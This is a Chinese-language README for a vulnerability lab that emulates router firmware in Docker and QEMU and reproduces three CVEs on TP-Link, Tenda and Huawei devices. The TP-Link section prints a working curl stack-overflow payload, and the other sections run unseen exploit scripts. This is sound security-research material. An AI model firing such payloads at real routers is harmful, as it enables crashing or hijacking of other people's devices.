




# iotvulhub自建镜像使用指南

**本项目根据 [firmianay/IoT-vulhub](https://github.com/firmianay/IoT-vulhub) 进行加工，原作者删除了 dockerhub 中的镜像，我在本地构建后重新上传**

---

- [iotvulhub自建镜像使用指南](#iotvulhub自建镜像使用指南)
  - [目前可用镜像](#目前可用镜像)
    - [提交镜像方法](#提交镜像方法)
  - [准备工作](#准备工作)
  - [部分漏洞复现](#部分漏洞复现)
    - [TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）](#tp-link-wr841n-栈溢出漏洞cve-2020-8423)
    - [Tenda AC15 栈溢出漏洞（CVE-2018-16333）](#tenda-ac15-栈溢出漏洞cve-2018-16333)
      - [遇到的问题](#遇到的问题)
    - [华为 HG532 远程代码执行漏洞（CVE-2017-17215）](#华为-hg532-远程代码执行漏洞cve-2017-17215)

## 目前可用镜像

- **k4l1xx/ubuntu1604**
使用方法：
```bash
docker pull k4l1xx/ubuntu1604
```

- **k4l1xx/binwalk**
使用方法：
```bash
# 普通版本 binwalk
docker pull k4l1xx/binwalk
# noentry版本 binwalk。firmae和firmadyne会用到
docker pull k4l1xx/binwalk:noentry
```

- **k4l1xx/qemu-system**
使用方法：
```bash
# mips
docker pull k4l1xx/qemu-system:mips
# mipsel
docker pull k4l1xx/qemu-system:mipsel
# armel
docker pull k4l1xx/qemu-system:armel
# armhf
docker pull k4l1xx/qemu-system:armhf
```

- **k4l1xx/firmae**
使用方法：
```bash
docker pull k4l1xx/firmae
```

- **k4l1xx/firmadyne**
使用方法：
```bash
docker pull k4l1xx/firmadyne
```

### 提交镜像方法

1. 在官网注册帐号

2. 在本地环境登录

```
docker login
```

3. 修改镜像名称

如果想构建好直接push到dockerhub，需要遵循一定的命名规范。

如果没有指定标签名称，默认是latest
```
docker build -t {注册用户名}/{镜像名}:{标签名} .
```

想要将现有不规范名称的镜像推送到dockerhub，需要用tag命令改名：

- tag命令修改为规范的镜像：

```bash
docker tag {不规范的镜像名称} {注册用户名}/{镜像名}:{标签名}
```

4. 推送镜像

- 推送镜像的规范是：

```bash
docker push {注册用户名}/{镜像名}:{标签名}
```

---

## 准备工作

- 克隆仓库到本地
```bash
git clone https://github.com/kal1x/iotvulhub.git
```

- 使用sock5代理的方法




---

## 部分漏洞复现

### TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）


本实验依赖的镜像有：`ubuntu1604 -> qemu-system:mips`

- 拉取镜像

```bash
# 拉取 ubuntu1604
docker pull k4l1xx/ubuntu1604:latest
# 拉取 qemu-system:mips
docker pull k4l1xx/qemu-system:mips
# 拉取binwalk
docker pull k4l1xx/binwalk:latest
```

- 构建容器

```bash
# 进入当前漏洞环境目录
cd /TP-Link/CVE-2020-8423
# 使用 binwalk 解压固件
docker run --rm -v $PWD/firmware/:/root/firmware k4l1xx/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"
```

- 构建并启动漏洞环境：

**注意**：docker-compose-system.yml 文件的第一步需要是 **FROM k4l1xx/qemu-system:mips** 。
如果clone到本地的仓库是 firmianay 的原版仓库，需要修改 **FROM firmianay/qemu-system:mips** 为 **FROM k4l1xx/qemu-system:mips** ，因为原作者在dockerhub中已经将该镜像删除，直接拉取会失败。

```bash
# 初始化环境
$ sudo sh ./init_env.sh mips

# 构建镜像
$ sudo docker-compose -f docker-compose-system.yml build

# 启动容器
$ sudo docker-compose -f docker-compose-system.yml up


# 以192.168.2.1作为跳板，将192.168.2.2模拟的固件的80端口映射出来，从而能够在本地直接访问，并进行抓包
$ ssh -L 127.0.0.1:8101:192.168.2.2:80 root@127.0.0.1 -p 1234

# 或者使用sock5代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 192.168.2.2 admin/admin

```
exp:
在192.168.2.1中输入：
```
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/ITOKVBJAOYUCAMPC/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```

---

### Tenda AC15 栈溢出漏洞（CVE-2018-16333）

本实验依赖的镜像有：`k4l1xx/ubuntu1604 -> k4l1xx/qemu-system:armhf`

- 拉取镜像

```bash
# 拉取 ubuntu1604
docker pull k4l1xx/ubuntu1604:latest
# 拉取 qemu-system:armhf
docker pull k4l1xx/qemu-system:armhf
# 拉取binwalk
docker pull k4l1xx/binwalk:latest
```

- 构建容器

```bash
# 进入当前漏洞环境目录
cd ./Tenda/CVE-2018-16333
# 使用 binwalk 解压固件
docker run --rm -v $PWD/firmware/:/root/firmware k4l1xx/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

- 构建并启动漏洞环境：

**注意**：docker-compose-system.yml 文件的第一步需要是 **FROM k4l1xx/qemu-system:armhf** 。
如果clone到本地的仓库是 firmianay 的原版仓库，需要修改 **FROM firmianay/qemu-system:armhf** 为 **FROM k4l1xx/qemu-system:armhf** ，因为原作者在dockerhub中已经将该镜像删除，直接拉取会失败。

```bash
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ sudo docker-compose -f docker-compose-system.yml build

# 启动容器
$ sudo docker-compose -f docker-compose-system.yml up

# 启动完成后,开启代理
# 方法一：以192.168.2.1作为跳板，将192.168.2.2模拟的固件的80端口映射出来，从而能够在本地直接访问，并进行抓包
ssh -L 127.0.0.1:8777:192.168.2.2:80 root@127.0.0.1 -p 1234
# 方法二：开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234

# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py

```



#### 遇到的问题



- 在 `192.168.2.1` 使用nmap对 `192.168.2.2` 扫描，能够探测到 80 端口，但是直接访问web界面会失败

---

### 华为 HG532 远程代码执行漏洞（CVE-2017-17215）

镜像依赖：`k4l1xx/ubuntu1604 -> k4l1xx/qemu-system:mips`

- 拉取镜像

```bash
# 拉取 ubuntu1604
docker pull k4l1xx/ubuntu1604:latest
# 拉取 qemu-system:mips
docker pull k4l1xx/qemu-system:mips
# 拉取binwalk
docker pull k4l1xx/binwalk:latest
```

- 构建容器

```bash
# 进入当前漏洞环境目录
$ cd ./HUAWEI/CVE-2017-17215
# 使用 k4l1xx/binwalk 解压固件：
$ docker run --rm -v $PWD/firmware/:/root/firmware k4l1xx/binwalk -Mer "/root/firmware/HG532eV100R001C01B020_upgrade_packet.bin"
```

- 构建并启动漏洞环境：

```bash
# 初始化环境
$ sudo sh ./init_env.sh mips
# 构建镜像
$ sudo docker-compose -f docker-compose-system.yml build
# 启动容器
$ sudo docker-compose -f docker-compose-system.yml up
# 以192.168.2.1作为跳板，将192.168.2.2模拟的固件的80端口映射出来，从而能够在本地直接访问，并进行抓包
$ ssh -L 127.0.0.1:8202:192.168.2.2:80 root@127.0.0.1 -p 1234
# 或者使用sock5代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 192.168.2.2 admin/admin

# 漏洞利用
$ python3 tools/exp.py
```


